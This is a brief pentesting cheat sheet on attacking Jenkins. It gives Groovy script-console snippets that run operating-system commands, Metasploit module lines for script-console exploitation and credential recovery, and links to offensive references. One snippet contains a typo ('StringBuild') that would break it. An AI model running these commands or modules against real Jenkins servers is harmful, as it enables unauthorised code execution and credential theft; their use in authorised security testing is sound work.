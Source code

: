 # Jenkins

## Scripting

```groovy
println "<command>".execute().text;

println "whoami".execute().text;

println "systeminfo".execute().text;
```

```groovy
println "Command processor"
def sout = new StringBuild(), serr = new StringBuilder();
def args = ["cmd", "/c", "dir C:\\path\\to\\directory\\"];
def proc = new ProcessBuilder(args);
Process process = proc.start();
process.consumeProcessOutput(sout, serr);
process.waitForOrKill(2000);
println sout;
```

## Metasploit

```
msf > use exploit/multi/http/jenkins_script_console

set rhost <target_IP>

set rport <target_PORT>
```

```
msf > use post/multi/gather/jenkins_gather

auxiliary/gather/jenkins_cred_recovery
```

---
## References

- [Hacktricks: Jenkins](https://cloud.hacktricks.xyz/pentesting-ci-cd/jenkins-security)

- [Hacking Articles: Jenkins Penetration Testing](https://www.hackingarticles.in/jenkins-penetration-testing/)

- [Pwn Jenkins](https://github.com/gquere/pwn_jenkins)

- [Highon Coffee: Jenkins RCE via Unauthenticated API](https://highon.coffee/blog/jenkins-api-unauthenticated-rce-exploit/)

- [Double Pivoting both Metasploit and Manual Pivoting](https://www.hdysec.com/double-pivoting-both-metasploit-and-manual/)